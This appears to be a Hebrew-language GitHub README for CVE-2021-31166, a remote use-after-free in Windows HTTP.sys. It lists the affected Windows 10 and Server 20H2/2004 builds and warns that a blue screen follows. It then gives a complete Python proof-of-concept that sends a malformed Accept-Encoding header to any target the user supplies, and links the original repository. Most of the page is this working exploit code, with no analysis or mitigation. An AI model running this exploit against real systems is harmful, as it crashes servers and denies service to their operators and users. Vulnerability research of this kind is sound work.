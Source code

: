 <languages  />

השפעת פגיעות
------------

    Windows Server, version 20H2 (Server Core Installation)
    Windows 10 Version 20H2 for ARM64-based Systems
    Windows 10 Version 20H2 for 32-bit Systems
    Windows 10 Version 20H2 for x64-based Systems
    Windows Server, version 2004 (Server Core installation)
    Windows 10 Version 2004 for x64-based Systems
    Windows 10 Version 2004 for ARM64-based Systems
    Windows 10 Version 2004 for 32-bit Systems

POC
---

⚠️️ מסך כחול יופיע בעת ביצוע ה- POC.

    # Axel '0vercl0k' Souchet - May 16 2021
    import requests
    import argparse

    def main():
        parser = argparse.ArgumentParser('Poc for CVE-2021-31166: remote UAF in HTTP.sys')
        parser.add_argument('--target', required = True)
        args = parser.parse_args()
        r = requests.get(f'http://{args.target}/', headers = {
            'Accept-Encoding': 'doar-e, ftw, imo, ,',
        })
        print(r)

    main()

GIF
---

![](windows.gif "windows.gif")

הפניה
-----

<https://github.com/0vercl0k/CVE-2021-31166>